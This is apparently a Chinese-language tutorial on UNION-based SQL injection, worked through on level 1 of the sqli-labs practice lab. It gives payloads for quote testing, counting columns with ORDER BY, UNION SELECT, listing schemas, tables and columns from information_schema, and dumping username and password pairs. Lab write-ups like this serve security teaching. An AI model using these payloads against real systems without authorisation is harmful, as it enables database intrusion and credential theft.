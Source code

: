 ```yaml
---
title: 联合查询注入
date: 2019-06-20 15:55:34
tags: sql-injection
category: [security,sql-injection]
---
```

对于有回显的注入漏洞，我们可以通过联合查询，获取数据库数据,以 sqli-labs 第一关的实验为例子
# ![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557843049567-dd99a231-caaf-47e3-828a-4f6c94170898.png#align=left&display=inline&height=303&name=image.png&originHeight=606&originWidth=2288&size=474017&status=done&width=1144)
**0x01 通过错误显示，我们可以进行单引号的测试（%23为#是 mysql 里面注释符号）**
```
// 真假条件测试
http://192.168.50.46:8081/Less-1/?id=1%27%20and%201=1%20%23
http://192.168.50.46:8081/Less-1/?id=1%27%20and%201=2%20%23
```
**0x02 接下来就要猜测数据库表有几行**
```
http://192.168.50.46:8081/Less-1/?id=1%20%27%20%20order%20by%204%20%23
// 解析出来就是
http://192.168.50.46:8081/Less-1/?id=1 ' order by 4 #
```
可以看到页面错误![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557843772120-ed92ba94-4001-4e61-972a-ef4e28f6d4f1.png#align=left&display=inline&height=275&name=image.png&originHeight=550&originWidth=2174&size=378950&status=done&width=1087)最后得出其行数为 3 行。 **0x03 记下来需要查看显示的字段，存在数据库的第几行。**这里还涉及到 mysql的几个小知识点：

1. `select 1,2,3,4`  语句是 mysql 里面的打印语句，当你数据库没有数据，你有几行就可以按顺序打印
1. 根据需求，需要将这道题的 `id` 设置为不存在，否则将只打印数据库存在的字段，而不是1，2，3
```
// 设置 id 为0 select 1,2,3 %23
http://192.168.50.46:8081/Less-1/?id=0%20%27%20%20union%20select%201,2,3%23
```
得到![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557844250750-fffa777f-d20f-43ae-a06b-87190e3a01b8.png#align=left&display=inline&height=339&name=image.png&originHeight=678&originWidth=2282&size=410162&status=done&width=1141)**0x04 通过关键函数获取信息**`user()` 当前连接数据库的用户`database()` 当前数据库的名称`version()` 当前数据库名连接函数：`concat()` `concat_ws()` `group_concat()` 使用下面的 POC
```
union select 1,2 concat_ws(char(58),user(),database(),version()) # 
union select 1,2, group_concat(user(),":",database(),":",version()) #
```
得到![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557844703408-c06d0725-849d-4c62-a225-e61f4ddbecf0.png#align=left&display=inline&height=338&name=image.png&originHeight=676&originWidth=2288&size=531945&status=done&width=1144)**0x05 获取表信息**`information_schema.schemata`  存储了所有数据库名`information_schame.tables`  存储了所有的数据库表，通过其字段名称 `table_name` ，可以查到所有的表`information_schema.columns` 存储了所有字段，通过 `column_name` 可以查到所有的字段名

1. 获取数据库名
```
union select 1,2,(select group_concat(schema_name) from information_schema.schemata) #
```

2. 获取表名
```
union select 1,2 (select group_concat(table_name) from information_schema.tables where table_schema="security") #
```

3. 获取列信息
```
union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name="users") #
```

4. 获取数据
```
union select 1,2 (select group_concat(username,":",password) from users) # 
```


